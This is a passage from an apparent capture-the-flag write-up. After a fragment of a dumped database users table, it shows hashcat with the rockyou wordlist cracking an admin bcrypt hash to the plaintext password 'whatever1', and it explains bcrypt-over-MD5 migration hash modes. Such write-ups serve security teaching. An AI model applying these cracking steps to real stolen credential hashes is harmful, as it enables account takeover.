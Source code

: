     | 2023-08-13 02:48:26 | 2023-08-23 06:02:19 | kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT |
    +----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
    ...[snip]...



There's one user. I could dump the other tables, but that's all I'll
need.

### Crack Hash

I'll save that hash to a file and use `hashcat` with the `rockyou.txt`
wordlist to try to crack it. If I let it try to detect the hash format,
it'll complain there are multiple possibilities:



    $ hashcat ./admin.hash rockyou.txt 
    hashcat (v6.2.6) starting in autodetect mode
    ...[snip]...
    The following 4 hash-modes match the structure of your input hash:

          # | Name                                                       | Category
      ======+============================================================+======================================
       3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
      25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
      25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
      28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

    Please specify the hash-mode with -m [hash-mode].
    ...[snip]...



The last three are cases where the password is hashes first with an
older hashing format and then with `bcrypt`. That is a common way to
migrate a database from just using MD5 to using BCrypt without having
users have to change their password. Just set it to do both, and take
all the MD5s currently in the DB and BCrypt them and they've been
updated.

Given that, it makes sense to try straight BCrypt first:



    $ hashcat ./admin.hash rockyou.txt -m 3200
    hashcat (v6.2.6) starting
    ...[snip]...
    $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2:whatever1
    ...[snip]...


